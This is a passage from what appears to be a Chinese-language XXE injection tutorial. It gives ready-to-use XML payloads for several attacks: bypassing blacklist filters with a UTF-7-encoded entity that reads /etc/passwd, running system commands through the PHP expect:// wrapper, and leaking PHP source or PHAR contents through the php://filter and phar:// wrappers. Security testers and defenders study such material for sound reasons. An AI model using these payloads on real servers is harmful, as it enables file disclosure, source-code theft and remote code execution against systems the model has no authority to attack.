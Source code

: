 你可能已经注意到了，在我们所有的 XXE Payloads中，我们只使用了 UTF-8 编码。  
  
如之前所见，一些过滤规则主要涉及删除恶意关键词和语法符号。  
  
然而，如果解析器配置为接受多种字符编码，我们实际上可以将恶意Payload以 UTF-7 而不是 UTF-8 进行编码：  
```
<?xml version="1.0" encoding="UTF-7"?>+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-title+AD4-+ACY-xxe+ADs-+ADw-/post+AF8-title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-desc+AD4-xyz+ADw-/post+AF8-desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```  
  
这种做法可以帮助我们绕过多种输入验证限制，尤其是那些基于黑名单关键词过滤以防止 XXE 注入攻击的系统。  
  
**提示：**  
 记得在你的Payload中包含 XML 声明，并将编码设置为"UTF-7"！  
##  将 XXE 升级为远程代码执行（RCE）   
  
在某些情况下，可能超出读取系统文件或访问内部网络的范围。例如，当启用 Expect PHP 模块时，我们实际上可以使用包装器执行系统命令：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY exec SYSTEM "expect://whoami">]><data>    <post>        <post_title>whoami: &exec;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
这个特定的 PHP 模块允许开发者通过 PTY 与进程进行交互，我们还可以使用其它几种包装器来提升初始的 XXE 漏洞：  
- PHP filter wrapper  
  
- PHP archive wrapper (PHAR)  
  
- ZIP/JAR wrapper (used to read files in archives)  
  
- Data  
  
- Gopher  
  
- FTP  
  
- Dict  
  
### PHP filter wrapper  
  
PHP filter wrapper 是 PHP 过滤扩展的一部分，旨在帮助开发人员过滤、清理和验证数据，我们可以使用这个包装器来读取本地文件（例如 PHP 源代码）：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file.php">]><data>    <post>        <post_title>&xxe;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
此 PHP 过滤器会将我们的 PHP 文件内容编码为 base64，并将其返回给我们。  
### PHAR  
  
PHAR 是 PHP 存档包装器扩展的一部分，用于允许开发人员访问 PHAR 文件内的文件（一个包含 PHP 应用程序或库的单一文件），我们可以使用此包装器来泄露内部 PHAR 文件中的 PHP 文件内容：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY xxe SYSTEM "phar:///path/to/file.phar/internal/file.php">]><data>    <post>        <post_title>&xxe;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  